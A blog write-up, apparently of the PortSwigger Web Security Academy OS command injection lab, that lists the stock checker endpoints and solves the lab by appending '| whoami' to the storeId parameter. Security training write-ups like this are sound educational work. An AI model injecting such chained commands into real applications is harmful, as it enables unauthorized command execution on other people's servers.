 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Lab 1"
date:   2024-07-07 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Lab 1 - OS Command Injection - Simple Case
>OS Command Injection is a vulnerability that consists of an attacker executing commands on the host operating system via a vulnerable application.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection/lab-simple">Port Swigger - Lab 1</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308204">Rana Khalil - Lab 1</a>
<br/>

### Lab Objective:
<hr/>

This lab contains an OS command injection vulnerability in the product stock checker.
The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user.

### Solution
<hr/>

#### 1. Take note of all possible endpoint calls that accepts user input from the UI:

```
GET /product?productId=1
```
```
POST /product/stock 
body: productId=1&storeId=1
```

#### 2. Append | whoami to POST  /product/stock    storeId parameter

```
product=1&storeId = 1 | whoami
```
![Command Injection - Lab 1 - Response](/images/portswigger/CommandInjection/command_injection_lab_1_response)

<hr/>